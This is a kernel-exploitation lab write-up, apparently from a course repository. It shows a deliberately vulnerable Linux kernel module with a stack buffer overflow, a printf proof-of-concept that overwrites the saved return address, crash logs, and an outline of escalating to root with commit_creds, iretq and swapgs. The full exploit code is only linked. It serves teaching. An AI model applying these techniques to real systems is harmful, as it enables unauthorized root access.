 # Lab 6 - Stack Smashing

In this Lab, we will be exploiting a buffer overflow vulnerability in a kernel module to attain root privileges.
We will be doing this in the x64 kernel image provided.
The following mitigations will be turned off in this lab:
 - SMEP / SMAP
 - kallsyms protection.
 - KASLR

You can read about them in more detail from the documentation provided for the previous lab.

###  Premise

We are the user on the system where a vulnerable kernel module has been inserted. 
This kernel module (smash.c) is similar to the one we saw in Lab 3. 
The module does the following : 
 - Creates a procfs file */proc/smash*, for which our user has read and write permissions.
 - */proc/smash* implements read and write, where the user can write to the buffer and the content written will be printed out when the file is read from.

#### Setting up the Premise
After compiling the module, copy  the setup script, (cmd.sh) and the complied module, (smash.ko) into the system using scp.
After which you can simply make the script executable and run which will setup the rest. 
```sh
scp -P 5022 cmd.sh modules/smash.ko root@localhost:.
```
On the system, once logged in:
```sh
chmod +x cmd.sh
./cmd.sh
```
### Vulnerability

The module has a very obvious buffer overflow vulnerability in the implementation of `procfile_write`.
```C
static
ssize_t procfile_write(struct file *file,const char *buffer, size_t count, loff_t *offset)
{
	char localbuf[8];
	/* get buffer size */
	procfs_buffer_size = count;
	/* write data to the buffer */
	if ( copy_from_user(procfs_buffer, buffer, procfs_buffer_size) ) {
		return -EFAULT;
	}
	memcpy(localbuf,procfs_buffer,procfs_buffer_size);
	printk(KERN_INFO "copied to buffer : %s", localbuf);
	return procfs_buffer_size;
}
```
There is no check before the `memcpy()` which copies contents from a user controlled buffer `procfs_buffer` of size 1024 bytes to `localbuf`. This results in a ridiculously big and easily exploitable buffer overflow.

### PoC

To check if we can exploit this vulnerability we will try to jump to an arbitrary address before we do anything meaningful.
To do this, the idea is that we will overflow the buffer to overwrite the saved `rip`, from where we will jump to our payload.
Since there are not a lot of local variables and the buffer is decidedly very small. By simply writing alphabets to `/proc/smash`, we can be sure of where the saved `rip` is.

```sh
printf "ABCDEFGHIJKLMNOPQRSTUVWXYZ" > /proc/smash
```

This results in a segmentation fault. Looking at the dmesg, we see the following : 

```sh
[  186.108640] copied to buffer : ABCDEFGHIJKLMNOPQRSTUVWXYZ
[  186.111020] general protection fault: 0000 [#1] SMP NOPTI
[  186.113342] CPU: 0 PID: 1109 Comm: sh Tainted: G           O      4.18.16 #1
[  186.113890] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS rel-1.11.2-0-gf9626ccb91-prebuilt.qemu-project.org 04/01/2014
[  186.114882] RIP: 0010:0x504f4e4d4c4b4a49
[  186.115089] Code: Bad RIP value.
[  186.115612] RSP: 0018:ffffc900000ffe48 EFLAGS: 00000292
[  186.115887] RAX: 000000000000001a RBX: ffff880005892900 RCX: 0000000000000000
[  186.116201] RDX: ffff88000781d250 RSI: ffff8800078154f8 RDI: ffff8800078154f8
[  186.116511] RBP: fffffffffffffffb R08: 5554535251504f4e R09: 0000000000000174
[  186.116862] R10: 5251504f4e4d4c4b R11: 4d4c4b4a49484746 R12: ffffc900000fff10
[  186.117240] R13: 00007f56a1745e20 R14: 0000000000000000 R15: 0000000000000000
[  186.117724] FS:  00007f56a19626a0(0000) GS:ffff880007800000(0000) knlGS:0000000000000000
[  186.118233] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  186.118659] CR2: 00000000004542ce CR3: 0000000005a3c000 CR4: 00000000000006f0
[  186.119372] Call Trace:
[  186.121654]  ? __vfs_write+0x21/0x150
[  186.121995]  ? selinux_file_permission+0xd0/0x120
[  186.122370]  ? _cond_resched+0x11/0x40
[  186.122613]  ? vfs_write+0xab/0x190
[  186.122835]  ? ksys_write+0x3d/0x90
[  186.123134]  ? do_syscall_64+0x43/0xf0
[  186.123496]  ? entry_SYSCALL_64_after_hwframe+0x44/0xa9
[  186.124010] Modules linked in: smash(O)
[  186.125733] ---[ end trace 2d33769f5c4f1df6 ]---
[  186.126354] RIP: 0010:0x504f4e4d4c4b4a49
[  186.126681] Code: Bad RIP value.
[  186.126991] RSP: 0018:ffffc900000ffe48 EFLAGS: 00000292
[  186.127627] RAX: 000000000000001a RBX: ffff880005892900 RCX: 0000000000000000
[  186.128289] RDX: ffff88000781d250 RSI: ffff8800078154f8 RDI: ffff8800078154f8
[  186.128835] RBP: fffffffffffffffb R08: 5554535251504f4e R09: 0000000000000174
[  186.129466] R10: 5251504f4e4d4c4b R11: 4d4c4b4a49484746 R12: ffffc900000fff10
[  186.129989] R13: 00007f56a1745e20 R14: 0000000000000000 R15: 0000000000000000
[  186.130608] FS:  00007f56a19626a0(0000) GS:ffff880007800000(0000) knlGS:0000000000000000
[  186.131313] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  186.131728] CR2: 00000000004542ce CR3: 0000000005a3c000 CR4: 00000000000006f0

```

The lines of our interest are : 

```sh
[  186.114882] RIP: 0010:0x504f4e4d4c4b4a49
[  186.115089] Code: Bad RIP value.
```

The `rip` value is the 'IJKLMNOP' part of our input. Thus we now know for sure that we can jump to an arbitrary address.
We also have the exact offset to saved `rip` - 8. 

### The Exploit

The exploit script can be found here: [exploit.c](exploit/exploit.c)

Now that we can point execution to where ever we want, we will obviously first do, `commit_creds(prepare_kernel_cred(0));` We will do this using hard-coded address for this lab.

But unlike the exploit in Lab5, in the process of gaining the execution flow, we have completely destroyed the stack, this means that we can no longer rely on the kernel to successfully return execution to user mode and will have to do it ourselves.
To do this successfully, we will have to restore the `trap frame` that is stored on the stack, the `iretq` instruction is used for doing this. 

Returning from kernel mode to user mode and executing shell can be done as illustrated in [exploit.c](exploit/exploit.c).  Also note the `swapgs` instruction which is used for preserving kernel information for a specific logical processor core across context switches.
